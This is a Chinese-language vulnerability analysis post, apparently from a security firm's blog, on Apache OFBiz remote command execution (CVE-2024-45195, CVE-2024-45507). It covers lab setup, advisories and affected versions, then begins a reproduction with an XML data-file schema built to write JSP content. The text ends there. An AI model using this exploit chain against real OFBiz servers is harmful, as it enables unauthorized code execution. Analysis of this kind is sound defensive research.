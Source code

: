 #  Apache OFBiz 命令执行漏洞分析（CVE-2024-45195、CVE-2024-45507）   
原创 元亨-blckder02  中孚安全技术研究   2024-11-13 17:31  
  
1. 环境搭建  
     
  
下载地址：  
https://archive.apache.org/dist/ofbiz/  
  
解压后用 IDEA 打开，点击右侧栏 Gradle 中的 build 之后会生成一个 biuld 目录，该目录下面会生成一个 ofbiz.jar，Run/Debug Configurations 中会自动生成一个 Gradle 配置项；  
  
新增 JAR Application，添加指定 ofbiz.jar 路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSF4TPULibwic2JJD4k2icuAJibp5x0wbxvoMzTeyZ1n7cOvYg7CHA3oXrxwA/640?wx_fmt=png&from=appmsg "")  
  
启动这个jar。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFBo6pYcFAoEKTxeksN4ucRZ5V3rBtauN4Nct6ww4KNPcFLPibeIoPd9Q/640?wx_fmt=png "")  
  
能成功访问   
https://localhost:8443/webtools  
 就说明环境搭好了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFh3tLsbcX0JsuENjXThGA9Moyx6icX8pVqSvvkCAVZh4vOyacj4A6nNA/640?wx_fmt=png "")  
## 2. CVE-2024-45195    
### 2-1. 前言    
  
**官方公告：**  
  
https://issues.apache.org/jira/browse/OFBIZ-13130  
  
https://lists.apache.org/thread/o90dd9lbk1hh3t2557t2y2qvrh92p7wy  
  
**漏洞描述：**  
  
通过目录遍历可以绕过授权验证实现命令执行。  
  
**影响版本：**  
  
Apache OFBiz < 18.12.16  
     
### 2-2. 漏洞复现    
  
rceschema.xml:  
```
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="60" position="0"></field>
        </record>
    </data-file>
</data-files>
```  
  